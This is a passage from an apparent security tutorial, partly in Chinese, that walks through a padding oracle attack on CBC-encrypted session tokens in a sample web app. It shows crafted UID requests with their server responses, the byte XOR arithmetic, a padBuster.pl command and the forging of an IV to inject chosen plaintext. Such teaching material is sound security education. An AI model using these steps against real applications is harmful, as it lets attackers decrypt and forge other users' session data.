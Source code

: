 http://sampleapp/home.jsp?UID=7B216A634951170FF851D6CC68FC9537858795A28ED4AAC6

7B216A634951170F	IV
F851D6CC68FC9537	BRIAN;12
858795A28ED4AAC6	;2;55555

http://sampleapp/home.jsp?UID=0000000000000000F851D6CC68FC9537
500 - Internal Server Erro
http://sampleapp/home.jsp?UID=0000000000000001F851D6CC68FC9537
500 - Internal Server Erro
http://sampleapp/home.jsp?UID=000000000000003CF851D6CC68FC9537
200 OK
If [Intermediary Byte] ^ 0x3C == 0x01,
then [Intermediary Byte] == 0x3C ^ 0x01,
so [Intermediary Byte] == 0x3D
[IV Byte] == 0x0F
PlainText(Decrypted Value) == [Intermediary Byte] ^ [IV Byte] == 0x3D ^ 0x0F== 0x32

padBuster.pl http://sampleapp/home.jsp?UID=7B216A634951170FF851D6CC68FC9537858795A28ED4AAC6 7B216A634951170FF851D6CC68FC9537858795A28ED4AAC6 8 -encoding 2

### 逆向改造明文区块加密

![](/docs/docs_image/coder2hacker/realcase/padding_oracle04.png)

改变第一个区块的明文
利用第一个区块的解密值生成加密的中间值intermediary value生成新IV
You have probably noticed that once we are able to deduce the intermediary value for a given ciphertext block, 
we can manipulate the IV value in order to have complete control over the value that the ciphertext is decrypted to.
So in the previous example of the first ciphertext block that we brute forced, 
if you want the block to decrypt to a value of "TEST" you can calculate the required IV needed to produce this value by XORing the desired plaintext against the intermediary value. 
So the string "TEST" (padded with four 0x04 bytes, of course) would be XORed against the intermediary value to produce the needed IV of 0x6D, 0x36, 0x70, 0x76, 0x03, 0x6E, 0x22, 0x39.
